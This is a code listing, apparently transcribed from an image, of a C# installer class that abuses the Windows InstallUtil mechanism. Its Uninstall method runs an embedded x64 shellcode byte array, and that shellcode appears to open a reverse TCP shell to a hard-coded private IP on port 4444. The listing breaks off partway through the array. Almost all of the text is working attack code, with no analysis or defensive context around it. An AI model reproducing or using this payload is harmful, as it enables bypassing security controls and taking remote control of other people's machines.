 ```cs

{

public static void Main()

{

}


}

[System.ComponentModel.RunInstaller(true)]

public class Sample : System.Configuration.Install.Installer

{

public override void Uninstall(System.Collections.IDictionary savedState)

{

Shellcode.Exec();

}

}

public class Shellcode

{

public static void Exec()

{

byte[] shellcode = new byte[510] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,
0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,
0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,
0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,0x00,
0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5,
0x49,0xbc,0x02,0x00,0x11,0x5c,0xc0,0xa8,0x7e,0x92,0x41,0x54,0x49,0x89,0xe4,
0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,
0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,
0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,
0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,0xe5,
0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,
0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
```